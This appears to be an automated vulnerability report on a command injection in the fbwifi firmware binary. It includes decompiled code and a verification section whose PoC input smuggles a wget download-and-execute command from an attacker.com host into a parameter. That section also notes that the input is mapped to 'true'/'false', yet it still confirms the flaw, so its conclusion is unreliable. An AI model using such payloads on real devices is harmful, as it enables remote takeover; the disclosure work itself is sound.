 ## 验证指标

- **验证时长：** 148.45 秒
- **Token 使用量：** 245373

---

## 原始信息

- **文件/目录路径：** `bin/fbwifi`
- **位置：** `fbwifi:0x000177bc fcn.000177bc`
- **描述：** The function fcn.000177bc contains multiple system() calls that execute commands built from user-controlled input without proper sanitization. The commands involve 'fbwifi_nvram set' and 'fbwifi_nvram commit', which are used to manage NVRAM variables. User input from the parameter param_1 is incorporated into the command string using helper functions (e.g., fcn.00017528, fcn.0007aeac), and the resulting string is passed directly to system(). An attacker can inject arbitrary commands by including shell metacharacters (e.g., ';', '|', '&') in the input, leading to remote code execution. The vulnerability is triggered when the function processes untrusted input, such as from network requests or IPC mechanisms, and executes the constructed commands with root privileges if the binary has elevated permissions.
- **代码片段：**
  ```
  void fcn.000177bc(uchar *param_1) {
      // ... function setup ...
      fcn.0000fae4(iVar2 + -0x28, *0x17988, *0x1798c);  // Build string with 'fbwifi_nvram set '
      fcn.0000fb50(iVar2 + -0x24, iVar2 + -0x28, *0x17990);  // Add '=' separator
      fcn.00017528(iVar2 + -0x20, *param_1);  // Incorporate user input
      fcn.0000fb80(iVar2 + -0x2c, iVar2 + -0x24, iVar2 + -0x20);  // Combine strings
      sym.imp.system(*(iVar2 + -0x2c));  // Execute command
      // ... similar patterns for other system calls ...
      sym.imp.system(*0x1799c);  // Execute 'fbwifi_nvram commit'
  }
  ```
- **备注：** The vulnerability is highly exploitable due to the use of system() with unsanitized user input. Attackers with network access or IPC capabilities can trigger this vulnerability. Further analysis should verify the source of param_1 and explore other functions using system() (e.g., fcn.00017d1c, fcn.00017d98) for similar issues. The binary may run with elevated privileges, increasing the impact.

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自反汇编分析：函数 fcn.000177bc 包含多个 system() 调用，其中用户输入从 param_1 通过辅助函数 fcn.00017528（映射输入到 'true'/'false'）和 fcn.0007aeac（处理指针输入）合并到命令字符串中，未对 shell 元字符进行净化。攻击者模型为未经身份验证的远程攻击者或通过 IPC 机制控制输入。路径可达，因为函数被其他代码调用（如从 fcn.0000ec90）。完整攻击链：攻击者提供恶意输入（如 'true; malicious_command'）→ 输入被合并到命令字符串（如 'fbwifi_nvram set something=true; malicious_command'）→ system() 执行注入的命令。PoC 步骤：1. 识别触发 fcn.000177bc 的入口点（如网络请求或 IPC）。2. 发送包含 shell 元字符的输入（例如，参数值为 'true; wget http://attacker.com/malicious.sh -O /tmp/malicious.sh && sh /tmp/malicious.sh'）。3. 观察恶意命令执行，可能导致远程代码执行。由于二进制可能以 root 权限运行，影响为高风险。
